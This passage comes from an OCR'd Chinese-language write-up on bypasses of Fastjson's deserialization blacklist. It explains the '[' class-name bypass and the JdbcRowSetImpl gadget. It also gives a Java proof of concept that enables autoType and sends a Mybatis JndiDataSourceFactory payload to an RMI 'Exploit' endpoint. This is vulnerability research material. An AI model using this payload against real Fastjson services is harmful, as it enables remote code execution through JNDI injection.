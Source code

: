 根据POC可知，绕过⽅式不再使⽤ `L---`; 类型，⽽是使⽤ `TypeUtils.loadClass` 函数中对类名以

`[` 开头的处理进⾏绕过，并且变化了 `[{` ，为了反序列化解析的时候不会产⽣异常。

com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader)

![image-20210813175741738](Fastjson2/image-20210813175741738.png)

删除开头的 [ 然后引⼊ com.sun.rowset.JdbcRowSetImpl 类型，但最后返回的⼀个的数组类。

如果使用`，`的话会报错,根据报错信息修改成`[{`

# 1.2.44-1.2.45

com/alibaba/fastjson/parser/ParserConfig.java:903

![image-20210813181138521](Fastjson2/image-20210813181138521.png)

## poc

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.ibatis.datasource.jndi.JndiDataSourceFactory;
public class POC {
 public static void main(String[] args) {
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
 String PoC = "
{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"prope
rties\":{\"data_source\":\"rmi://localhost:1099/Exploit\"}}";
 JSON.parse(PoC);
 }
}
```

## 补丁绕过

这下无法绕过黑名单了,于是诞⽣了有⼀定限制的新 `Mybatis` 利⽤链，可以直接绕过⿊名单。

## Mybatis
